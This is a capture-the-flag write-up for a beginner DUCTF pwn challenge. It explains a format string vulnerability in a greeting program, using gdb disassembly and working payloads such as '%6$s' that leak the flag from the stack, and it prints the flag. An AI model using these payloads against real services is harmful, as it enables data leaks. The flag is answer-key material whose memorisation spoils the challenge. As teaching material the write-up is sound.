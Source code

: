 ___
# Leaking like a sieve
_(pwn, beginner, 100 points, 419 solves)_

This program I developed will greet you, but my friend said it is leaking data like a sieve, what did I forget to add?

Author: xXl33t_h@x0rXx

`nc pwn-2021.duc.tf 31918`

[hellothere](./hellothere)
___

## Investigation
`checksec` showed that NX and PIE are enabled for the binary. Following the `ltrace` I learned the flow of the program and found no potential
buffer overflow vulnerability at first sight. I loaded the program into `gdb` and disassembled the `main` function, which was the only function of interest here.

```
...
0x0000000000001201 <+41>:	lea    rsi,[rip+0xe00]        # 0x2008  "r"
0x0000000000001208 <+48>:	lea    rdi,[rip+0xdfb]        # 0x200a  "./flag.txt"
0x000000000000120f <+55>:	call   0x1080 <fopen@plt>
...
0x000000000000125d <+133>:	lea    rax,[rbp-0x50]
0x0000000000001261 <+137>:	mov    esi,0x20
0x0000000000001266 <+142>:	mov    rdi,rax
0x0000000000001269 <+145>:	call   0x1070 <fgets@plt>
0x000000000000126e <+150>:	lea    rdi,[rip+0xe1c]        # 0x2091  "\nHello there, "
0x0000000000001275 <+157>:	mov    eax,0x0
0x000000000000127a <+162>:	call   0x1060 <printf@plt>
0x000000000000127f <+167>:	lea    rax,[rbp-0x50]
0x0000000000001283 <+171>:	mov    rdi,rax
0x0000000000001286 <+174>:	mov    eax,0x0
0x000000000000128b <+179>:	call   0x1060 <printf@plt>
...
```

We can see here that the program reads in the flag from a file somewhere in the beginning. Later, it asks the user for input, which gets stored at `rbp-0x50`,
and prints it out again using `printf`. Using this input as the first and only parameter to `printf` a format string vulnerability
is introduced. We can verify this by inputting some format strings like `%p %p %p %p %p %p %p %p` and see that memory addresses from the programs stack get leaked.

```
(gdb) r
...
What is your name?
%p %p %p %p %p %p %p %p

Hello there, 0x7fffffffbd30 (nil) 0x7ffff7ed6387 0x7fffffffde60 (nil) 0x7fffffffde80 0x5555555592a0 0x7025207025207025

What is your name?
```

## Solution
As it happens the flag is the sixth address stored in the stack so we can print that out by inputting `%6$s`. This format string will interpret the sixth
address on the stack as a string and print it out. Et voila!

```
(gdb) r
...
What is your name?
%6$s

Hello there, DUCTF{f0rm4t_5p3c1f13r_m3dsg!}
```

See [exploit](./exploit.py) for an automation of the exploit written in python.

> DUCTF{f0rm4t_5p3c1f13r_m3dsg!}
